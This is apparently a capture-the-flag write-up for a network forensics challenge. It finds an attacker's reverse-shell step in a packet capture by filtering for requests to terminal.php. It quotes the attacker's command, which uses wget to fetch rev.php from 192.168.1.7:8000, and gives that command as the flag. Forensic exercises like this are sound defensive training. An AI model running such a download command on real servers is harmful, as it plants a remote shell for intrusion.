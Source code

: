 # Shell

> What did the attacker do for the reverse shell in the server?

Download the pcap file [here](file/challenge.zip)

# How to Solve

We need look the pcap file and see the http request with filter string `terminal.php`

![POC 1](images/POC%201.jpg)

Seems there a command to spawn a file, so we need confirm the file

![POC 2](images/POC%202.jpg)

Then it a sure the command is `wget http://192.168.1.7:8000/rev.php`

Because the format is `BDSEC{command}`

Then flag is

```
BDSEC{wget_http://192.168.1.7:8000/rev.php}
```